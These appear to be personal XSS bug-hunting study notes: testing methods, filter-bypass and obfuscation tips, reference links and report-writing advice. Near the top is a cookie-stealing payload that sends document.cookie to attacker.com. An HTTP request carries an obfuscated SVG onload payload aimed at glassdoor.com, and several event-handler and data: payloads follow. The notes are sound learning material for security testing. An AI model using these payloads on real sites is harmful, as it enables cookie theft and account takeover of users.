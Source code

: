 # Further Learning
> https://aszx87410.github.io/beyond-xss/en/


## Account Take Over
> https://xss.example.com/?input=<script>document.location="http://attacker.com/index.php?cookie=" + document.cookie;</script>

# Identifying XSS
1. Look for input fields
2. Type in the payload. Simple payloads prolly won't work bc of sanitation
3. More than <script> tags
- test on HTML tag attributes like onload, onclick, onerror
- HTTP URL schemes like javascript: and data:
- with data: you can pass a base64 encode of the script payload
- like data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
- or just pass the script 

# XSS Validation
## Client-Side and Server side
A Web app can use both, determine 
where the validations and sanitation are applied
and mutate the payload accordingly

Read Open Source Frameworks for static analysis
of the XSS Prevention implementations

Reading source code can help you detect 
if there is a possibility of XSS like DOM-XSS

Look at cookie implementation to see how you can
escalate an XSS by stealing user cookies 
check httponly flag

> GET /member/home/index.htm/x.jpeg?t=2021111121 HTTP/2
```
Host: www.glassdoor.com
X-Forwarded-For: xss 
X-Forwarded-For: xss><svg/onload=globalThis[`al`+/ert/.source]`1`// 
X-Forwarded-For: > 
Cookie: gdId=xss</script%20
```

# Cheatsheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet

Everything about web application firewalls (WAFs) from a security perspective. 🔥
https://github.com/0xInfection/Awesome-WAF

Payloads All The Things
A list of useful payloads and bypasses for Web Application Security. Feel free to improve with your payloads and techniques !
https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/#other-ways

https://html5sec.org/

polyglot
https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/

IoT
https://github.com/OWASP/IoTGoat/

https://cheatsheetseries.owasp.org/index.html

XSS Filter Evasion Cheat Sheet
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

On ruling out false XSS with innerHTML 
TIP: Scan source code for how innerHTML is used. 

HTML specifies that a <script> tag inserted with innerHTML should not execute.
https://www.w3.org/TR/2008/WD-html5-20080610/dom.html#innerhtml0

However, there are ways to execute JavaScript without using <script> elements, 
so there is still a security risk whenever you use innerHTML to set strings 
over which you have no control. For example:
const name = "<img src='x' onerror='alert(1)'>";
el.innerHTML = name; // shows the alert

Test image uploads with image URL in URL

====================
 On report writing |
====================
For that reason, it is recommended that instead of innerHTML you use:
Node.textContent when inserting plain text, as this inserts it as raw text rather than parsing it as HTML.
https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations

XSS’s impact depends on a variety of factors: whether it’s stored or
reflected, whether cookies are accessible, where the payload executes etc
Despite the potential damage XSS can cause on a site, fixing XSS vulnerabilities is often easy

When they say they have fixed your issue, please test again to confirm that it has really be fixed. 
if it isn't fixed properly, point out to them to make a proper complete fix.

XSS Polymorphism 
- Changing your payload based of sanitation information received from the target
- if your payload is getting sanitized, 
how do you by pass the sanitization?
Under the sanitization and craft a clever payload 
that passes the sanitation
- maybe pass malformed html/js payloads
- see https://klikki.fi/yahoo-mail-stored-xss/
- see https://mahmoudsec.blogspot.com/2015/09/how-i-found-xss-vulnerability-in-google.html


There are HTML attributes that executes javascript
For example, these HTML
Event Attributes that execute JavaScript being outside a <script> tag:
<b onmouseover=alert('XSS')>Click Me!</b>
<svg onload=alert(1)>
<body onload="alert('XSS')">
<img src="http://test.cyberspacekittens.com"
onerror=alert(document.cookie);>

See https://html5sec.org/
Turning HTML Injection into XSS
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>


BROWSERS HACKERS HANDBOOK
URL OBFUSCATION
The following are ways in which to obfuscate a URL:
■ URL Shorteners
■ URL Redirectors
■ URL- or ASCII-encoded characters
■ Adding a number of extra, irrelevant query parameters with the malicious
payload either in the middle or toward the end
■ Using the @ symbol within a URL to add fake domain content
■ Converting the hostname into an integer, for example http://3409677458
